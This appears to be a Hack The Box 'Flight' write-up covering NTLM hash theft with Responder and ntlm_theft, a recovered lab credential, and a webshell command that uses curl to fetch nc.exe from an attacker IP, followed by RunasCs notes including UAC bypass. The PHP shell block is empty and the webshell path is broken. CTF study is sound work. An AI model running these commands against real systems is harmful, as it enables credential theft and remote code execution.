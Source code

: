 # Foothold (Lateral Movement)
there is a tool called [ntl_theft](https://github.com/Greenwolf/ntlm_theft) that creates several files that could potentially be used to steal the NTLMv2 hash of a user just by accessing a folder.

So, first of all, we set up Responder to intercept any potential authentication requests.

```sh
# start responder
responder -I tun0 -v

# Then, we clone the ntl_theft tool and create our malicious files.
git clone https://github.com/Greenwolf/ntlm_theft
cd ./ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
```

![[/assets/images/flight16.png]]
![[/assets/images/flight17.png]]
![[/assets/images/flight18.png]]

```text
c.bum : Tikkycoll_431012284
```

![[/assets/images/flight19.png]]

upload nc.exe to the LFI path 
`school.flight.htb/styles/nc.exe`
![[/assets/images/flight20.png]]

## Reverse shell
```php

```

```sh

http://school.flight.htb/styles/.php?cmd=curl+10.10.14.7:2222/nc.exe -o C:\Windows\Temp\nc64.exe
```
# Privilege Escalation
### RunCs
The [RunasCs](https://github.com/antonioCoco/RunasCs) project aims to create a binary like `runas.exe` but without limitations:

> - Allows explicit credentials
> - Works both if spawned from interactive process and from service process
> - Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the creation of the new process
> - Uses more reliable create process functions like `CreateProcessAsUser()` and `CreateProcessWithTokenW()` if the calling process holds the required privileges (automatic detection)
> - Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no _UAC_ limitations)
> - Allows to bypass UAC when an administrator password is known (flag –bypass-uac)
> - Allows redirecting _stdin_, _stdout_ and _stderr_ to a remote host
> - It’s Open Source :)
